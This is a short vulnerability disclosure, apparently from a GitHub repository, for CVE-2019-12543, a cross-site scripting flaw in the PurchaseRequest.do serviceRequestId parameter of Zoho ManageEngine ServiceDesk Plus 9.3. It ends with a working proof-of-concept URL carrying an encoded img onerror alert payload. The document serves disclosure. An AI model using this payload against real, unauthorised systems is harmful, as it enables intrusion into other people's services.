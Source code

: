 # CVE-2019-12543 Zoho ManageEngine ServiceDesk Plus 9.3 XSS vulnerability in PurchaseRequest.do
Information Description: An issue was discovered in Zoho ManageEngine ServiceDesk Plus 9.3. There is XSS via the PurchaseRequest.do serviceRequestId parameter. 

**Author: Concobe of Tarantula Team - VinCSS (a member of Vingroup)**

# Payload 

domain/PurchaseRequest.do?operation=getAssociatedPrsForSR&serviceRequestId=1%3Cimg%20src%3da%20onerror%3dalert(%27XSS%27)%3E1
